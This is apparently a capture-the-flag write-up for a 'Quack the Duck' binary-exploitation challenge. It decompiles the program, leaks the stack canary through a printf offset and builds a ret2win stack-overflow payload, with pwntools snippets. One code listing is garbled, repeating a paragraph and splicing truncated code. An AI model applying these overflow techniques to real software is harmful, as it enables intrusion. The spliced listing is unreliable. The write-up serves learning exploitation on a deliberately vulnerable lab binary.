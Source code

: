 # Enumeration

First of all, we start with a `checksec`:  

![Screenshot from 2025-03-27 00-38-37](https://github.com/user-attachments/assets/3920eca5-f740-4ad0-ad07-975e511cdbbb)



### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}

```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```

As we can see, there are 2 buffers, `buf[4]` and `v3[11]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

Our first input goes to `buf` and we get a leak of `v1 + 32`. That means we can leak up to `32` from the end of the buffer 
where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset when debug.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator\n");
    exit(1);
  }
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  return v3 - __readfsqword(0x28u);
}
```

### Debugging 
I used IDA pro, so it automatically debug and find the address of variables for me. You can see that on the comments of the disassembled code.

Now, to prove all this theory we can check the debugging. 
```
Địa chỉ cao    +----------------+
               | Địa chỉ trở về |
        rbp -> +----------------+
               |Canary[rbp-0x8] |  <-- v4
               +----------------+
               |                |
               |     .....      |  (các biến khác, padding)
               |                |
               +----------------+
               |                |
               |   buf[rbp-0x80]    |  <-- buf[4] bắt đầu từ [rbp-0x80]
               |                |
               +----------------+
               |                |
        rsp -> +----------------+
Địa chỉ thấp
```
![image](https://github.com/user-attachments/assets/543c1298-bbd7-4150-92b8-1616e78584cb)

So the distance between Canary and buf is `0x80-0x8 = 0x78` bytes. But, to override the Canary, we need one more byte so need to pass 121 bytes to get Canary leak.
And then `\x00` is overrided which is the last byte of canary.
```c
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
Thus, `v1+32=121` and  v1 is the first letter that is found from input. 
So we need to send `89*'A' + "Quack Quack "(12 bytes) = total 101 bytes = 0x65`
```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After have Canary value, we calculate the distance between the second input and the canary as the previous one.
`0x60-0x8= 88 bytes`. This time we dont need to plus 1 byte because we have the canary value.
So the payload is `88*'A' + Canary + 8 bytes (save rbp) + return address(duck_attack)`.


# Result
![image](https://github.com/user-attachments/assets/60d16b42-810e-4b92-acc2-8eedfdfa18f2)


